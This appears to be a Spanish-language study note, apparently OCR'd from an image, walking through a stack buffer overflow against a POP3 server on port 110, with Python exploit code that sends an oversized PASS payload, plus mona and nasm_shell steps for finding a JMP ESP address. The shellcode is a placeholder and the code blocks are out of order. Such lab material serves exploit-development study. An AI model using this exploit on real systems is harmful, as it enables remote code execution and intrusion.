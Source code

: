 ``` python
shellcode = (b"lo que te da msfvenom"
b"0x54"
b"0x49")

payload = before_eip + eip + shellcode


def exploit():
    # Crear un socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Conectar al servidor
    s.connect((ip_address, port))

    # Recibir el banner
    banner = s.recv(1024)

    # Enviar comandos
    s.send(b"USER jquerito" + b'\r\n')
    response = s.recv(1024)
    s.send(b"PASS " + payload  + b'\r\n')
    s.close()

# Función principal
if __name__ == '__main__':
    exploit()
```

- Averiguamos el **JUMP ESP**
```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp ESP
00000000 FFE4
nasm > \xFF\xE4
```

- Buscanos el módulo .dll o cualquier otro que tenga los 4 primeros valores en **False**
```bash
!mona modules --> encontramos SLMFC.dll
```

- Cogemos dirección que no tenga badchars
```bash
!mona find -s '\xFF\xE4' -m SLMFC.dll
o probar
!mona findwild -s "JMP ESP"
```

- Si estamos en 32bits tiene que estar al revés, por eso le aplicamos **Little Endian** importamos **from struct import pack**
- Poner la dirección que nos da **!mona** en minúsculas
```python
#!/usr/bin/python3

from struct import pack
import socket
import sys

# Variables globales
ip_address = input("Introduce ua dirección IP: ")
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4c4d13) # Lo que nos da el anterior comando de mona

```